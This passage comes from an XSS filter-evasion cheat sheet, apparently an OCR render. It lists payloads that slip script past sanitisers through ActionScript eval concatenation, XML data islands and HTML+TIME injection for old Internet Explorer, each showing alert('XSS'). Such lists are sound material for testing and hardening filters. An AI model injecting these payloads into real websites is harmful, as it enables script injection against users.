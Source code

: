 ## Using ActionScript Inside Flash for Obfuscation

```js
a = 'get';
b = 'URL("';
c = 'javascript:';
d = "alert('XSS');\")";
eval(a + b + c + d);
```

## XML Data Island with CDATA Obfuscation

This XSS attack works only in IE and Netscape 8.1 in IE rendering engine mode) - vector found by Sec Consult while auditing Yahoo:

```xml
<XML ID="xss"><I><B><IMG SRC="javas<!-- -->cript:alert('XSS')"></B></I></XML>
<SPAN DATASRC="#xss" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
```

## Locally hosted XML with embedded JavaScript that is generated using an XML data island

This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

```xml
<XML SRC="xsstest.xml" ID=I></XML>
<SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
```

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

```html
<html>
  <body>
    <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
    <?import namespace="t" implementation="#default#time2">
    <t:set attributeName="innerHTML" to="XSS
    <script defer>
      alert('XSS');
    </script>
    ">
  </body>
</html>
```

## Assuming you can only fit in a few characters and it filters against `.js`
